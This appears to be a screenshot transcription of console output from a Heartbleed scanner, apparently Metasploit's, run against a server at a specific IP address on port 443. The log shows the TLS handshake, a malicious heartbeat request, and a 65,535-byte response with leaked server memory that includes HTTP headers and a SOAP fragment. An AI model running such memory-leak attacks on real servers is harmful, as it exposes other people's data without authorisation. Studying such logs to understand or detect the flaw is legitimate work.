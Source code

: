 	[*] 92.154.49.106:443 - Length: 331

	[*] 92.154.49.106:443 - Handshake #1:

	[*] 92.154.49.106:443 - Length: 327

	[*] 92.154.49.106:443 - Type: Server Key Exchange (12)

	[*] 92.154.49.106:443 - SSL record #4:

	[*] 92.154.49.106:443 - Type: 22

	[*] 92.154.49.106:443 - Version: 0x0301

	[*] 92.154.49.106:443 - Length: 4

	[*] 92.154.49.106:443 - Handshake #1:

	[*] 92.154.49.106:443 - Length: 0

	[*] 92.154.49.106:443 - Type: Server Hello Done (14)

	[*] 92.154.49.106:443 - Sending Heartbeat...

	[*] 92.154.49.106:443 - Heartbeat response, 65535 bytes

	[+] 92.154.49.106:443 - Heartbeat response with leak, 65535 bytes

	[*] 92.154.49.106:443 - Printable info leaked:

	......]......ea..,.g5N.W.b.....#O6.4>..f.....".!.9.8.........5.............................3.2.....E.D...../...A................................................Accept:
	text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8..Accept-Charset:
	GBK,utf-8;q=0.7,*;q=0.3..Accept-Language: zh-CN,zh;q=0.8..Connection:
	close.............j..1.............................................................................................................................................................................C?.....................................................................................................................................
	repeated 15604 times
	.....................................................................................................................................@.....................................................................................................................................
	repeated 16122 times
	.....................................................................................................................................@.....................................................................................................................................
	repeated 1079 times
	.....................................................................................................................................O....H.........1...-...Fca...5.z.F.eyN......av.T...G......S.....)...%.,.*.b...c.....N.........+..G.1...|.<.....o.Y.2...R...H.f.$.....>...6...8.....=.Y.......t.....6.....-.........K.....f...h.n.d.......~.........
	.H.......F.L...}...X............:.8........................................................................................................................................................................................................................................................................................is
	xsi:type="ManagedObjectReference"
	type="ServiceInstance">ServiceInstance</_this></RetrieveServiceContent></soap:Body></soap:Envelope>bD....|..*x..=.Q.....................................................................................................................................
	repeated 10035 times
	.....................................................................................................................................]....8...8.8.k.8.k..`....T.....................................................................................................................................
	repeated 3770 times
	.....................................................................................................................................@.....................................................................................................................................
	repeated 16103 times
	.....................................................................................................................................
